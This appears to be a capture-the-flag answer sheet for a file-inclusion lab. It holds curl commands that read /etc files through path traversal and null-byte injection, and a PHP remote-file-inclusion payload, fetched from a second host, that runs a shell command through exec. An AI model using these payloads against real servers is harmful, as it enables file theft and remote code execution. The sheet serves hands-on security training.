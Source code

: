 **Answers**

1. `curl -X POST http://10.10.155.196/challenges/chall1.php -d "method=POST&file=/etc/flag1"`

2. `curl -b THM=../../../../etc/flag2%00 http://10.10.155.196/challenges/chall2.php --output -`

3. `curl -X POST http://10.10.155.196/challenges/chall3.php -d "method=POST&file=../../../etc/flag3%00" --output -`

4. 
```
// rfi.txt

<?php
// outputs the username that owns the running php/httpd process
// (on a system with the "whoami" executable in the path)
  $output=null;
  $retval=null;
  exec('hostname', $output, $retval);
  echo "Returned with status $retval and output:\n";
  print_r($output);
?>

http://10.10.155.196/playground.php?file=http://10.4.96.175/rfi.txt
```

